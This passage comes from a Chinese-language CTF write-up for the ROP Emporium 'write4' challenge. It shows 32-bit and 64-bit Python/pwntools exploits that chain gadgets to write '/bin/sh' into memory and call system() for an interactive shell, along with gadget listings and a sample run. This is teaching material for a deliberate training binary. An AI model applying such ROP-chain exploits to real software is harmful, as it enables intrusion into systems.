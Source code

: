 ```python
payload += l32(mov_edi_ebp)
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./write432')
io.writeline(payload)
io.interact()
```
```
$ python2 run.py 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA(/binp,/shp0BBBB(�
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

#### write4
64 位程序就可以一次性写入了。
```
$ ropgadget --binary write4 --only "mov|pop|ret"
...
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400893 : pop rdi ; ret
```
```python
from pwn import *

pop_r14_r15 = 0x0000000000400890
mov_r14_r15 = 0x0000000000400820
pop_rdi = 0x0000000000400893
data_addr = 0x0000000000601050
system_plt = 0x004005e0

payload  = "A"*40
payload += p64(pop_r14_r15)
payload += p64(data_addr)
payload += "/bin/sh\x00"
payload += p64(mov_r14_r15)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(system_plt)

io = process('./write4')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```
